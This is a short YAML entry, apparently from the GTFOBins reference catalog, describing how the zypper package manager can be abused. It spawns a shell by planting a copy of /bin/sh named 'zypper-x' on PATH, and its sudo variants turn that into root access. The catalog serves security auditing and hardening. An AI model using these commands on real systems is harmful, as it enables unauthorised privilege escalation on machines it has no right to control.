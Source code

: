```yaml
---
functions:
  shell:
    - description: This requires `/bin/sh` to be copied to `/usr/lib/zypper/commands/zypper-x` and this usually requires elevated privileges.
      code: |
        zypper x
    - code: |
        TF=$(mktemp -d)
        cp /bin/sh $TF/zypper-x
        export PATH=$TF:$PATH
        zypper x
  sudo:
    - description: This requires `/bin/sh` to be copied to `/usr/lib/zypper/commands/zypper-x` and this usually requires elevated privileges.
      code: |
        sudo zypper x
    - code: |
        TF=$(mktemp -d)
        cp /bin/sh $TF/zypper-x
        sudo PATH=$TF zypper x
    - code: |
        TF=$(mktemp -d)
        cp /bin/sh $TF/zypper-x
        export PATH=$TF:$PATH
        sudo -E zypper x
---
```

